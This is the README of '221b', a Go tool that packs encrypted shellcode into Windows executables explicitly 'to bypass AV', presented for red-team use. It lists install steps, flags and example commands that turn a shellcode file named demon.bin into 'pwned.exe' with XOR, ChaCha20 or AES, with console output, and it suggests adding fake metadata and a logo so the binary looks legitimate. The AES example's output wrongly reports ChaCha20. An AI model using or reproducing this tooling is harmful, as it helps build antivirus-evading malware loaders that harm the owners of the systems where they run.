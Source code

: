 # 221b

## Getting started

### 1. Compile binary

```shell
go build -o 221b ./main.go
```

### 2. Copy binary to path

```shell
sudo mv 221b /usr/local/bin/
```

### 3. Exec 221b

```shell
221b bake -k <key> -s <shell>
```

## Usage

```shell
221b help bake
Build a windows payload with the given shell encrypted in it to bypass AV

Usage:
  221b bake [flags]

Flags:
  -h, --help               help for bake
  -k, --key string         key to use for the xor
  -o, --output string      Output path (e.g., /home/bin.exe)
  -s, --shellpath string   Path to the shell scrypt

Global Flags:
      --debug   activate debug mode

```

## Binary properties

It is possible to add a certain number of metadata as well as a logo via the folder named `misc`. 

also remember to modify the `versioninfo.json` file at the root of the project 


here's a preview of the final rendering, so don't ignore this part when planning a red team operation. 

![](/img/preview.png)


## Possible execution methods

### XOR : 

```shell
221b bake -k "@ShLkHms221b" -s /PathToShellcode/demon.bin -o pwned.exe
[+] use xor encryption method
[+] encrypting demon.bin
[+] loading encrypted shell into payload
[+] compiling binary
go: added golang.org/x/crypto v0.11.0
go: added golang.org/x/sys v0.10.0
[+] file compiled to pwned.exe
```

### Chacha20

```shell
221b bake -m chacha20 -k "0123456789ABCDEF1123345611111111" -s /PathToShellcode/demon.bin -o pwned.exe
[+] use chacha20 encryption method
[+] encrypting demon.bin
[+] loading encrypted shell into payload
[+] compiling binary
go: added golang.org/x/crypto v0.11.0
go: added golang.org/x/sys v0.10.0
[+] file compiled to pwned.exe
```


### AES

```shell
221b bake -m aes -k "0123456789ABCDEF1123345611111111" -s /PathToShellcode/demon.bin -o pwned.exe
[+] use chacha20 encryption method
[+] encrypting demon.bin
[+] loading encrypted shell into payload
[+] compiling binary
go: added golang.org/x/crypto v0.11.0
go: added golang.org/x/sys v0.10.0
[+] file compiled to pwned.exe
```



